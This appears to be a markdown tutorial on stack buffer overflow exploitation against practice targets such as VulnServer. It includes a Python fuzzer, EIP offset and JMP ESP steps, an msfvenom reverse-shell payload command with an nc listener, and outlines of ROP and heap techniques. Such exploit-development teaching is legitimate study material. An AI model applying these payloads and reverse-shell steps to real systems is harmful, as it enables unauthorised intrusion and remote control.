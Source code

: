 # Buffer Overflow Exploitation Guide (Beginner to Advanced)

## Introduction
A **buffer overflow** occurs when a program writes more data to a buffer than it can hold, overwriting adjacent memory and potentially allowing an attacker to control execution flow. This guide will take you from basic concepts to advanced exploitation techniques.

---

## 1️⃣ Understanding Buffer Overflows
### **How It Works**
1. A buffer (fixed-size memory) is allocated for input.
2. The program does not check input length, allowing excess data to **overflow into adjacent memory**.
3. If the overflow reaches the **EIP (Extended Instruction Pointer)**, an attacker can **control execution flow**.

### **Key Registers**
- **EIP** – Stores the address of the next instruction to execute.
- **ESP** – Points to the top of the stack.
- **EBP** – Base pointer for stack frames.

---

## 2️⃣ Finding a Vulnerable Application
To practice, download **VulnServer** (Windows) or **CloudMe**.

1. **Run the vulnerable application**:
   ```bash
   ./cloudme.exe
   ```
2. Identify the vulnerable buffer.

---

## 3️⃣ Fuzzing to Find the Crash
Use **Python** to send increasing input sizes and observe crashes.

```python
import socket

target = "127.0.0.1"
port = 8888

for i in range(100, 3000, 100):
    try:
        print(f"Sending {i} bytes")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.send(b"A" * i)
        s.close()
    except:
        print("Crashed at", i)
        break
```

---

## 4️⃣ Finding the Offset
Use Metasploit's **pattern_create** to generate unique input:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
Copy the generated pattern, send it as input, and note the **EIP overwrite value** in a debugger.

Find the exact offset:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_VALUE>
```

Example output: `Offset found at 1052 bytes`

---

## 5️⃣ Controlling EIP
Modify the exploit to overwrite **EIP** with a controlled value:

```python
buffer = b"A" * 1052  # Offset found earlier
EIP = b"B" * 4         # EIP overwrite
payload = buffer + EIP
```

Run the script and check if EIP becomes `42424242` (`BBBB` in hex).

---

## 6️⃣ Finding a JMP ESP Instruction
Use **Immunity Debugger + Mona.py**:
```text
!mona modules
```
Find a module with **no ASLR/DEP** and locate `JMP ESP`:
```text
!mona find -s "\xff\xe4" -m vulnapp.dll
```
Example output: `0x625011AF`

Modify the exploit:
```python
EIP = b"\xAF\x11\x50\x62"  # JMP ESP (little endian)
```

---

## 7️⃣ Injecting Shellcode
Generate shellcode using **msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -b "\x00" -f python
```

Modify exploit:
```python
nop_sled = b"\x90" * 16  # NOP slide
shellcode = b"<Generated shellcode>"
payload = buffer + EIP + nop_sled + shellcode
```

Start a listener:
```bash
nc -lvnp 4444
```
Execute the exploit and get a shell!

---

## 8️⃣ Advanced Techniques
- **Stack pivoting** to bypass mitigations
- **Return-Oriented Programming (ROP)** for DEP bypass
- **Heap-based buffer overflows**
---

## 8️⃣ Advanced Techniques
### **Stack Pivoting**
Stack pivoting is used when we don't have direct control over ESP. We overwrite EIP with an address that points to a **ROP gadget** that moves ESP to a controlled buffer.

Example:
```assembly
XCHG ESP, EAX  ; Exchange stack pointer with controlled register
RET
```
Use `!mona rop` in Immunity Debugger to find useful gadgets.

### **Return-Oriented Programming (ROP) for DEP Bypass**
If **DEP (Data Execution Prevention)** is enabled, traditional shellcode execution fails. **ROP chains** execute small instruction sequences ending in `RET` to bypass DEP.

- Use **ROP gadgets** to call `VirtualProtect()` and mark shellcode memory as executable.
- Tools like **ROPgadget** or **Mona.py** help build ROP chains.

Example to find ROP gadgets:
```bash
ROPgadget --binary vulnapp.exe
```

### **Heap-Based Buffer Overflow**
Instead of overflowing the stack, this attack targets heap memory. **Use-after-free** vulnerabilities or **heap spraying** techniques are common ways to exploit heap-based overflows.

Example technique:
- Spray memory with NOP sleds + shellcode.
- Corrupt function pointers or overwrite heap metadata.

Tools like **Heap Explorer** and **GDB-peda** help analyze heap structures.

---

## **Conclusion**
Buffer overflows are a fundamental exploit technique. Start with **basic stack overflows**, then move to **bypassing protections** like ASLR, DEP, and stack canaries.

🚀 Keep practicing with **OSCP-style machines** like `Brainpan`, `Alpha`, and `VulnServer`!
